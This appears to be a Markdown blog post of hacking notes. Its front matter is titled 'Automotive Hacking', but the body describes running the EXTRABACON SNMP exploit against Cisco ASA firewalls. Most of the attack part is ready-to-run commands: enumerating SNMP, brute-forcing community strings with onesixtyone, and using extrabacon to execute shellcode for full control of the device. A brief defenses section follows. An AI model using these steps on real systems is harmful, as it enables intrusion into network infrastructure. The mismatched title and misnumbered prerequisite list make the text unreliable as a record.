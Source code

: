 ```yaml
---
layout: post
title: Automotive Hacking
subtitle: Overview and Notes
cover-img: /assets/img/path.jpg
tags: [Automotive, Hacking, Security]
---
```


This exploit requires;
1. SNMP be enabled on the device
2. Knowledge of the community string in any version of SNMP (v1,v2,v3)
2. an attack with IPv4 packets only
4. Access to a system residing on the interface to the firewall


Steps- 
	• Get SNMP <IP> from Wireshark 
	• Use snmpcheck -t <IP>

Cracking SNMP community strings( if not set to "public")
	kali > onesixtyone 192.168.1.102 -c /usr/share/doc/onesixtyone/dict.txt
	
	
	kali > ./extrabacon info -t 192.168.1.101 -c hackers-arise
		This will return a file that we need in exec mode of EXTRABACON. Here, I have named that file OTW
	kali > ./extrabacon_1.1.0.1.py exec -k OTW -t 192.168.1.101 -c hackers-arise --mode pass-enable
		When the exploit is successful, it will execute the shellcode on the Cisco ASA firewall, giving the attacker complete control!
				
Defenses
Until Cisco releases a patch for this exploit, your best defenses are two.
1. Make your SNMP community string long and complex
2. Disable SNMP on the vulnerable device (no snmp-server enable)


For more info - [Reference](https://www.hackers-arise.com/post/2019/03/23/network-basics-for-hackers-simple-network-management-protocol-snmp-theory-reconnaissance)
Zero Day - [NSA Exploit in CISCO ASA]( https://www.hackers-arise.com/post/2016/08/22/the-extrabacon-zero-day-exploit-on-cisco-asa-firewalls)
